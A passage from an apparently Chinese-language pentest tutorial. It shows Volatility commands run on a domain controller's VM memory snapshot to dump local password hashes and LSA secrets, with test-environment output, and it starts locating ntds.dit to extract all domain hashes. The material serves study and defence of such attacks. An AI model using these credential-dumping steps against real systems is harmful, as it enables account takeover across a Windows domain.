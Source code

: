 测试环境下，获得Profile为`Win2016x64_14393`

#### (4)从注册表获得本地用户hash

命令如下：

```
./volatility_2.6_lin64_standalone -f "./vmfs/volumes/62a735a8-ad916179-40dd-000c296a0829/DC1/DC1-Snapshot1.vmem" --profile="Win2016x64_14393" hashdump
```

测试环境下，输出结果：

```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:58A478135A93AC3BF058A5EA0E8FDB71:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:58A478135A93AC3BF058A5EA0E8FDB71:::
```

#### (5)从注册表读取LSA Secrets

命令如下：

```
./volatility_2.6_lin64_standalone -f "./vmfs/volumes/62a735a8-ad916179-40dd-000c296a0829/DC1/DC1-Snapshot1.vmem" --profile="Win2016x64_14393" lsadump
```

测试环境下，输出结果：

```
NL$KM
0x00000000  40 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00   @...............
0x00000010  ac ab 06 24 e7 5e 13 ba 5b aa b2 d2 a7 d2 b3 cd   ...$.^..[.......
0x00000020  55 c6 b4 44 cf 9f 72 02 b5 e7 14 66 9e 41 25 35   U..D..r....f.A%5
0x00000030  a1 6b 50 48 82 35 ea e1 f9 2b a3 c6 9e 15 3b 6b   .kPH.5...+....;k
0x00000040  9d 3f 8d 29 1a 1a b8 d2 ff ce ba 49 c0 a7 fd ce   .?.).......I....
0x00000050  7c 7f f5 ec a0 d8 ab a0 75 ea 19 64 b5 af 10 49   |.......u..d...I

DefaultPassword
0x00000000  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00   ................
0x00000010  39 ad ef 46 ad 82 f8 a5 41 65 45 0e 5c 93 bf 73   9..F....AeE.\..s

DPAPI_SYSTEM
0x00000000  2c 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00   ,...............
0x00000010  01 00 00 00 d3 63 12 68 2a 9b 93 38 03 79 14 1f   .....c.h*..8.y..
0x00000020  1a 11 c2 19 9e 86 56 4a b8 aa a1 97 a4 4d 24 14   ......VJ.....M$.
0x00000030  18 f7 ae 3e 77 62 64 89 f2 e9 88 f2 00 00 00 00   ...>wbd.........
```

#### (6)导出所有域用户hash

需要下载ntds.dit、SYSTEM文件和SECURITY文件

定位ntds.dit文件，命令如下：

```
./volatility_2.6_lin64_standalone -f "./vmfs/volumes/62a735a8-ad916179-40dd-000c296a0829/DC1/DC1-Snapshot1.vmem" --profile="Win2016x64_14393" filescan |grep ntds.dit
```
